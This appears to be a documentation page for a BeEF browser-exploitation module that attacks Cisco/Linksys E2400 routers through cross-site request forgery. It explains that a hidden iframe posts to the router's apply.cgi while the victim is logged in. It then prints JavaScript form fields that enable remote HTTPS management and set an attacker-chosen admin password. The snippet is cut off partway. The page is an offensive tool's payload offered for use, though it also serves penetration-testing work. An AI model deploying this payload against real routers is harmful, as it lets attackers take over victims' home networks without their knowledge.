 ## Summary

* **Objective**: enable remote admin, disable firewall and change password on Cisco/Linksys E2400
* **Authors**: bcoles, n0x00
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/cisco_e2400_csrf)

## Internal Working

Uses an invisible iframe with a POST request to change router configurations. The victim has to be logged into the router for the action to succeed.

```js
var cisco_e2400_iframe1_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "apply.cgi", "POST", "application/x-www-form-urlencoded",
      [
       {'type':'hidden', 'name':'submit_button',     'value':'Management'},
       {'type':'hidden', 'name':'change_action',     'value':''},
       {'type':'hidden', 'name':'action',            'value':'Apply'},
       {'type':'hidden', 'name':'PasswdModify',      'value':'0'},
       {'type':'hidden', 'name':'http_enable',       'value':'1'},
       {'type':'hidden', 'name':'https_enable',      'value':'1'},
       {'type':'hidden', 'name':'ctm404_enable',     'value':''},
       {'type':'hidden', 'name':'remote_mgt_https',  'value':'1'},
       {'type':'hidden', 'name':'wait_time',         'value':'4'},
       {'type':'hidden', 'name':'need_reboot',       'value':'0'},
       {'type':'hidden', 'name':'http_passwd',       'value':passwd},
       {'type':'hidden', 'name':'http_passwdConfirm','value':passwd},
       {'type':'hidden', 'name':'_http_enable',      'value':'1'},
       {'type':'hidden', 'name':'_https_enable',     'value':'1'},
       {'type':'hidden', 'name':'web_wl_filter',     'value':'0'},
       {'type':'hidden', 'name':'remote_management', 'value':'1'},
       //.....

```

## Feedback

